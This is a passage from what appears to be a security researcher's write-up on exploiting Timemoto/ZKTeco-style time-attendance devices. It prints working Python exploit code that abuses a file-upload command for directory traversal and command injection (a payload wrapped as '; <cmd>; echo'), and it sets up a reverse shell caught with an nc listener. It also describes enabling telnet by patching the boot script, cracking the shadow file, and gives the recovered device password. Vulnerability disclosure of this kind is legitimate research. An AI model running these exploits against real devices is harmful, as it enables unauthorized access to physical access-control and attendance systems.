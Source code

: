 ```python
        self.z.send_command(110, data)
        self.z.recv_reply()

        time.sleep(1)

        print("[-] Sending reboot command")
        self.z.restart()
        print("[+] Done. Device will reboot now.\nTo catch shell: nc -nlvp {}".format(line.split(':')[1]))

    except Exception:
        traceback.print_exc()
```
Using the same method as above, but tailored to the device, I uploaded a `test.sh` file to the `/mnt/mtdblock/data` directory, which was executed and conveniently deleted by the device at boot, as scripted below:

`/etc/init.d/rcS`:
```sh
if [ -f $USERDATAPATH/auto.sh ]; then
        #start delegate and inotify
        /etc/start_delegate.sh &
        . $USERDATAPATH/auto.sh
fi
```
`auto.sh`:
```sh
if [ -f $DEST/test.sh ]; then
        cd $DEST && chmod u+x $DEST/test.sh && $DEST/test.sh
        rm test.sh
fi
```
To exploit the Timemoto TM-616, I simply downloaded the `rcS` file and patched it to start the telnet service. After cracking the shadow file, downloaded via the `CMD_READ_FILE` method, I was able to log in. The password was `solokey` and while I cannot praise the choice of password, I must also state there was originally no way to log in.

## More?
Yes! As some may have noticed, not only does the `CMD_UPLOAD_FILE` ~~method~~ ~~function~~ case (the function is over 2,500 lines long) not sanitise for directory traversal, it also fails to protect against command injection. This snippet shows how to exploit it:
```python
def do_command_exec(self, line):
    """Extremely iffy. Prefer write file method. Massive memory leaks and bounds checking issues make this method unstable and risk crashing target."""
    if not len(line):
        print("[*] Usage: command_exec <cmd>\n[*] Output will not be returned, but you could write to a file and get it afterwards. Busybox nc does not have -e option\n")
        return True
    try:
        # prepare data
        self.z.send_command(1500, struct.pack('<II', 1, 1))
        self.z.recv_reply()

        # send data
        self.z.send_command(1501, 'a'.encode())
        self.z.recv_reply()

        # apply data
        data = bytearray()
        data.extend(struct.pack('<I', 1700))
        payload = '; ' + line + '; echo \x00\x00'
        data.extend(payload.encode())
        self.z.send_command(110, data)
```